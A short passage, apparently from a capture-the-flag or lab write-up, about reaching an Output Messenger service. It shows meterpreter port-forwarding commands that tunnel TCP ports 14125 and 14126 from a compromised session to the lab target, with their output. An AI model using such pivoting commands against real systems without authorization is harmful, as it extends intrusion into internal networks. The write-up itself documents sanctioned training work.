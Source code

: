 ![](images/2024-09-01_15-43_output_messenger_web_interface.png)

Unfortunately the answer to this was no.

![](images/2024-09-01_16-55_output_messenger_dashboard.png)

We forwarded `14125/TCP` and `14126/TCP` and installed the client on our `Windows` machines as well.

```c
meterpreter > portfwd add -l 14125 -p 14125 -r 10.129.223.154
[*] Forward TCP relay created: (local) :14125 -> (remote) 10.129.223.154:14125
meterpreter > portfwd add -l 14126 -p 14126 -r 10.129.223.154
[*] Forward TCP relay created: (local) :14126 -> (remote) 10.129.223.154:14126
```
